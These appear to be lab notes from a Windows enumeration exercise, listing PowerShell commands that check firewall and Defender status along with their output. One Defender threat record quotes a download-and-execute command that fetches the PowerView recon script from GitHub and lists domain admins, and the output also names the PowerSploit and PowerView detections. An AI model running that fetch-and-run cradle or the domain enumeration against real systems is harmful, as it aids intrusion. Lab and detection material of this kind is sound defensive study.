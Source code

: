 
**TASKS**
commands
```
Get-NetFirewallProfile | Format-Table Name, Enabled
Get-MpThreat # can provide us with threats details that have been detected using MS Defender
Get-NetFirewallRule | select DisplayName, Enabled, Description # checked the firewall
Get-NetFirewallRule | select DisplayName, Enabled, Description | findstr "THM-Connection"
```

logs
```
PS C:\Users\kkidd> Get-NetFirewallProfile |Format-Table Name, Enabled

Name    Enabled
----    -------
Domain    False
Private   False
Public    False


PS C:\Users\kkidd> Get-MpThreat


CategoryID       : 8
DidThreatExecute : False
IsActive         : False
Resources        : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).D
                   ownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1');
                   Get-NetGroupMember 'Domain Admins', internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAd
                   Uq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                   AAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe powershell IEX (New-Object N
                   et.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Power
                   View.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus     : 1
SchemaVersion    : 1.0.0.0
SeverityID       : 5
ThreatID         : 2147725325
ThreatName       : Trojan:PowerShell/Powersploit.G
TypeID           : 0
PSComputerName   :

CategoryID       : 34
DidThreatExecute : False
IsActive         : False
Resources        : {file:_C:\Users\kkidd\Desktop\PowerView.ps1, containerfile:_C:\Users\kkidd\Desktop\PowerView.ps1,
                   file:_C:\Users\kkidd\Desktop\PowerView.ps1->(UTF-8)}
RollupStatus     : 1
SchemaVersion    : 1.0.0.0
SeverityID       : 4
ThreatID         : 2147755688
ThreatName       : HackTool:PowerShell/PowerView
TypeID           : 0
PSComputerName   :

CategoryID       : 34
DidThreatExecute : True
IsActive         : False
```